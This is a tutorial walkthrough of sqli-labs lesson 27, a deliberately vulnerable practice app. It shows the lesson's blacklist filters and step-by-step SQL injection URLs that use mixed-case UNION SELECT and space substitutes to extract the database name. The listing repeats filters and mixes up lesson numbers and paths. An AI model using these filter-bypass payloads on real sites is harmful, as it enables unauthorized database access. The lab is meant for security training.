





Bypassing blacklist filters 3
In this lesson UNION/union, SELECT/select, SPACE and Comments are blocked.
We're going to work on lesson 27.
If you open "/var/www/html/sqli-labs/Less-27/index.php" file you can see what filters have been used.
$id= preg_replace('/[\/\*]/',"", $id); //strip out /*
$id= preg_replace('/[--]/',"", $id); //Strip out --.
$id= preg_replace('/[#]/',"", $id); //Strip out #.
$id= preg_replace('/[ +]/',"", $id); //Strip out spaces.
$id= preg_replace('/select/m',"", $id); //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id); //Strip out spaces.
$id= preg_replace('/union/s',"", $id); //Strip out union
$id= preg_replace('/select/s',"", $id); //Strip out select
$id= preg_replace('/UNION/s',"", $id); //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id); //Strip out SELECT
$id= preg_replace('/Union/s',"", $id); //Strip out Union
$id= preg_replace('/Select/s',"", $id); //Strip out select
$id= preg_replace('/[--]/',"", $id); //Strip out --.
$id= preg_replace('/[#]/',"", $id); //Strip out #.
$id= preg_replace('/[ +]/',"", $id); //Strip out spaces.
$id= preg_replace('/select/m',"", $id); //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id); //Strip out spaces.
$id= preg_replace('/union/s',"", $id); //Strip out union
$id= preg_replace('/select/s',"", $id); //Strip out select
$id= preg_replace('/UNION/s',"", $id); //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id); //Strip out SELECT
$id= preg_replace('/Union/s',"", $id); //Strip out Union
$id= preg_replace('/Select/s',"", $id); //Strip out select
You can change the “id” number as we've already done in previous lessons.

There's only a Hint to displaay the string after it has been filtered.
a) Break the query.
URL: http://localhost/sqlilabs/Less-27/?id=1\

Result: We got a SQL Error. The developer has used “'” single quote to wrap the parameter. You can check it out in the file we used above.
"SELECT * FROM users WHERE id='$id' LIMIT 0,1";
You can see id is between “'”.
b) Fixing the query for SPACE into URL encode as parentheses.
URL: http://localhost/sqlilabs/Less-26/?id=7' OR (1)='1

Result: You have successfully fixed the query for SPACE into the URL encode as “()”
c) Fixing “Union” and “Select”.
URL: http://localhost/sqlilabs/Less-26/?id=7%27%20UnIon%a0SeLect (1),(2),(3)%20or%20(1)=%271
Note: “UnIon” and “SeLect”. Keep in mind the Uppercase letters.

d) Retrieving Database Name.
URL: http://localhost/sqlilabs/Less-26/?id=%27%20UnIon%a0SeLect (1),(database()),(3)%20or%20(1)=%271
NOTE: We invalidate the first part (7).

Result: Database name is “security".
We can recover other data the same way as in previos sections.